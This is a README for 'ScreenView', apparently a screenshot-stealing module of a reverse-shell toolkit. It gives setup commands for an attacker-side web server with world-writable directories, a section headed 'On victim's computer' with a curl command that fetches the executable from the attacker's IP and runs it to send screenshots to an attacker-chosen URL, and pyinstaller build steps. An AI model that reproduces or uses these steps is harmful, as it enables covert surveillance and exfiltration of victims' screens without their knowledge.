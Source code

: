 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ chmod 777 screenshot.txt
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
